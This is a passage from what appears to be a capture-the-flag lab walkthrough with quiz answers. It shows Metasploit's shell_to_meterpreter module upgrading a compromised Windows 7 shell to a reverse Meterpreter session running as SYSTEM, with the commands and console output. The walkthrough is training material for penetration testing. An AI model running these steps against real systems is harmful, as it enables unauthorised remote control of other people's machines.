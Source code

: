 `post/multi/manage/shell_to_meterpreter`

2. Select this (use MODULE_PATH). Show options, what option are we required to change? (All caps for answer)

```
msf5 post(multi/manage/shell_to_meterpreter) > show options

Module options (post/multi/manage/shell_to_meterpreter):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   HANDLER  true             yes       Start an exploit/multi/handler to receive the connection
   LHOST                     no        IP of host that will receive the connection from the payload (Will try to auto detect).
   LPORT    4433             yes       Port for payload to connect to.
   SESSION                   yes       The session to run this module on.
```

`SESSION`

3. Set the required option, you may need to list all of the sessions to find your target here.

```
msf5 post(multi/manage/shell_to_meterpreter) > set SESSION 1
SESSION => 1
```

`No answer needed`

4. Run! If this doesn't work, try completing the exploit from the previous task once more.

```
msf5 post(multi/manage/shell_to_meterpreter) > run

[*] Upgrading session ID: 1
[*] Starting exploit/multi/handler
[*] Started reverse TCP handler on 10.8.106.222:4433 
[*] Post module execution completed
[*] Sending stage (176195 bytes) to 10.10.166.97
[*] Meterpreter session 2 opened (10.8.106.222:4433 -> 10.10.166.97:49303) at 2020-09-14 17:41:50 -0400
[*] Stopping exploit/multi/handler
```

`No answer needed`

5. Once the meterpreter shell conversion completes, select that session for use.

```
msf5 post(multi/manage/shell_to_meterpreter) > sessions 

Active sessions
===============

  Id  Name  Type                     Information                                                                       Connection
  --  ----  ----                     -----------                                                                       ----------
  1         shell x64/windows        Microsoft Windows [Version 6.1.7601] Copyright (c) 2009 Microsoft Corporation...  10.8.106.222:4444 -> 10.10.166.97:49253 (10.10.166.97)
  2         meterpreter x86/windows  NT AUTHORITY\SYSTEM @ JON-PC                                                      10.8.106.222:4433 -> 10.10.166.97:49303 (10.10.166.97)

msf5 post(multi/manage/shell_to_meterpreter) > sessions -i 2
[*] Starting interaction with 2...

meterpreter >
```
